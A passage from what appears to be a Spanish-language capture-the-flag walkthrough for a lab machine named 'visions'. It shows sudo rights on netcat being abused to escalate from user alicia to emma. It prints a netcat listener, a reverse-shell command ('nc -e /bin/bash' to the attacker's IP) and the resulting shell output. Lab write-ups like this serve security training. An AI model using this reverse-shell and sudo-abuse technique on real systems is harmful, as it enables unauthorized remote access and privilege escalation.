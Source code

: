 ```sh
alicia@visions:/home/sophia$ ls -la
-rwx--x--x 1 sophia sophia 1920 Apr 19  2021 flag.sh
-rw------- 1 sophia sophia   18 Apr 19  2021 user.txt
```

Ahora buscaremos permisos de ejecución:

```sh
alicia@visions:~$ sudo -l
Matching Defaults entries for alicia on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User alicia may run the following commands on visions:
    (emma) NOPASSWD: /usr/bin/nc
```

Que traducido al español sería:

```sh
alicia@visions:~$ sudo -l
Entradas Defaults que coinciden para alicia en visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

El usuario alicia puede ejecutar los siguientes comandos en visions:
    (emma) NOPASSWD (sin solicitar contraseña): /usr/bin/nc

```

Como podemos visualizar, podemos ejecutar el comando `/usr/bin/nc` sin la necesidad de una contraseña:

```sh
# Nos ponemos en escucha en nuestro kali
nc -lnvp 12345
```

```sh
# Ejecutamos esto en la máquina victima
sudo -u emma nc -e /bin/bash <IP_de_nuestro_kali> 12345
```

Una vez ejecuta los comandos tendremos acceso:

```sh
nc -lnvp 12345
listening on [any] 12345 ...
connect to [192.168.56.22] from (UNKNOWN) [192.168.56.23] 57304
ls
flag.sh
user.txt
id
uid=1000(emma) gid=1000(emma) groups=1000(emma),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```
